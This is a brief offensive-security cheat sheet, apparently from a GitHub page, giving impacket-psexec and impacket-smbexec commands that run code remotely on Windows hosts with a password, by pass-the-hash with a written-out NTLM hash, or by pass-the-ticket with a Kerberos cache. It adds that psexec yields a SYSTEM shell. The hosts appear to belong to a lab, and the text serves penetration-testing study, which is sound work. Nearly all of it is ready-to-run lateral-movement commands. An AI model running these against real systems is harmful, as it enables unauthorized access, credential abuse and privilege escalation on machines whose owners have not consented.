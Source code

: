 ```bash
$ impacket-psexec [<domain>/]<username>:<password>@<IP>
$ impacket-smbexec [<domain>/]<username>:<password>@<IP>


# pass-the-hash
$ impacket-psexec -hashes 00000000000000000000000000000000:7a38310ea6f0027ee955abed1762964b Administrator@192.168.50.212

# pass-the-ticket
export KRB5CCNAME=/tmp/krb5cc_1120601113_ZFxZpK.ccache 
$ impacket-psexec jurassic.park/trex@labwws02.jurassic.park -k -no-pass
```
Due to the nature of _psexec.py_, we'll always receive a shell as SYSTEM instead of the user we used to authenticate.